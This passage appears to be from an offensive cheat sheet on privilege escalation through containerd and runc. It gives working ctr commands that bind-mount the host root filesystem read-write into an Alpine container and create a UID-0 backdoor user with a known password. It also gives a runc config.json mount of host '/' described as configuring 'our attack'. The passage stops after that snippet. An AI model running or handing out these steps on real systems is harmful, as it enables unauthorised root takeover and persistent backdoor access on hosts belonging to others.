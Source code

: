 *Containerd*:

- Containerd is a container runtime that manages the lifecycle of containers on a physical or virtual machine (a host). 
- It is a daemon process responsible for creating, starting, stopping, and destroying containers. 
- Containerd is also capable of pulling container images from container registries, managing storage, and configuring networking for a container.


To verify if `containerd` has access to building containers:
```bash
ctr image ls
```

Create a temporary container to check the environment:
```bash
ctr run --rm --mount type=bind,src=/,dst=/,options=rbind:ro docker.io/library/alpine:latest dummy sh -c "whoami; id"
```

We are inside a host, so we can create a user with root permissions using the `useradd` and set a password:
```bash
ctr run --rm --mount type=bind,src=/,dst=/,options=rbind:rw docker.io/library/alpine:latest dummy bash -c "useradd -ou 0 -g 0 username"
ctr run --rm --mount type=bind,src=/,dst=/,options=rbind:rw docker.io/library/alpine:latest dummy bash -c "echo 'username:username' | chpasswd"
```

Voilà:
```bash
su username
```

*Runc*:

- runC is a lightweight and portable container runtime created by the Open Container Initiative (OCI), which can be used independently of the rest of the Docker platform.

Get info:
```bash
runc -help
```

> Run `runc spec` to generate a default `config.json` file so that we can configure our attack.



Mount the root directory `/` on the host to the root directory `/` inside the container with read-write permissions (`rbind` and `rw` options):
```json
{
  "type": "bind",
  "source": "/",
  "destination": "/",
  "options": ["rbind", "rw"]
}
```

